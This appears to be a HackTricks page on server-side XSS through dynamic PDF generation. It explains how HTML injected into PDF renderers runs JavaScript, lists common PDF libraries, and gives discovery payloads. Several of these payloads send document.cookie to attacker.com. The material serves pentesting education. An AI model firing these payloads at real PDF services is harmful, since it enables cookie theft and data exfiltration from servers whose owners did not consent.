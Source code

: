 # Server Side XSS (Dynamic PDF)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Server Side XSS (Dynamic PDF)

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.\
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

Please, notice that the `<script></script>` tags don't work always, so you will need a different method to execute JS (for example, abusing `<img` ).\
Also, note that in a regular exploitation you will be **able to see/download the created pdf**, so you will be able to see everything you **write via JS** (using `document.write()` for example). But, if you **cannot see** the created PDF, you will probably need **extract the information making web request to you** (Blind).

### Popular PDF generation

- **wkhtmltopdf** is known for its ability to convert HTML and CSS into PDF documents, utilizing the WebKit rendering engine. This tool is available as an open-source command line utility, making it accessible for a wide range of applications.
- **TCPDF** offers a robust solution within the PHP ecosystem for PDF generation. It is capable of handling images, graphics, and encryption, showcasing its versatility for creating complex documents.
- For those working in a Node.js environment, **PDFKit** presents a viable option. It enables the generation of PDF documents directly from HTML and CSS, providing a bridge between web content and printable formats.
- Java developers might prefer **iText**, a library that not only facilitates PDF creation but also supports advanced features like digital signatures and form filling. Its comprehensive feature set makes it suitable for generating secure and interactive documents.
- **FPDF** is another PHP library, distinguished by its simplicity and ease of use. It's designed for developers looking for a straightforward approach to PDF generation, without the need for extensive features.


## Payloads

### Discovery
```markup
<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">
```
### SVG
